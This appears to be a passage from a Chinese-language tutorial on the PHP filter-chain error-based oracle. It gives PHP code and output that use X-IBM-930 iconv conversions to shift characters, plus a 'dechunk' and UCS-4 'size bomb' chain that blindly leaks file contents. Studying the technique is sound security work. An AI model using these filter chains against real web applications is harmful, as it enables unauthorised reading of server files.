 在 `X-IBM-930` 中，从 `a` 到 `f` 的字符移动了 1，大写字母和数字也设置在不同于 ASCII 表的索引上，例如 `cX` 和 `fX` ，因为可以防止与其他 base64 编码值的冲突。

下面看看这种编码的作用：

```plain
<?php
$guess_char = "";

for ($i=1; $i <= 7; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $filter = "php://filter/$guess_char/resource=/tmp/test";
    echo "IBM-930 conversions : ".$i;
    echo ", First char value : ".file_get_contents($filter)[0]."\n";
}
```

```plain
$ echo 'aSTART' > /tmp/test
$ php oracle.php 
IBM-930 conversions : 1, First char value : b
IBM-930 conversions : 2, First char value : c
IBM-930 conversions : 3, First char value : d
IBM-930 conversions : 4, First char value : e
IBM-930 conversions : 5, First char value : f
IBM-930 conversions : 6, First char value : g
IBM-930 conversions : 7, First char value : h
```

`$remove_junk_chars` 子链用于从链中删除不可打印的字符， `$guess_char` 用于 X-IBM-930 编解码器。最后，循环打印转换后的文件内容的第一个字符。如图，编解码器得到了正确使用效果：每次进行转换时，字符都会移动一个。

现在看看基于发生错误的 oracle 会产生什么：

```plain
<?php

$size_bomb = "";
for ($i = 1; $i <= 13; $i++) {
    $size_bomb .= "convert.iconv.UTF8.UCS-4|";
}
$guess_char = "";

$index = 0;

for ($i=1; $i <= 6; $i++) {
    $remove_junk_chars = "convert.quoted-printable-encode|convert.iconv.UTF8.UTF7|convert.base64-decode|convert.base64-encode|";
    $guess_char .= "convert.iconv.UTF8.UNICODE|convert.iconv.UNICODE.CP930|$remove_junk_chars";
    $filter = "php://filter/$guess_char|dechunk|$size_bomb/resource=/tmp/test";
    file_get_contents($filter);
    echo "IBM-930 conversions : ".$i.", the first character is "."edcba"[$i-1]."\n";
}
```
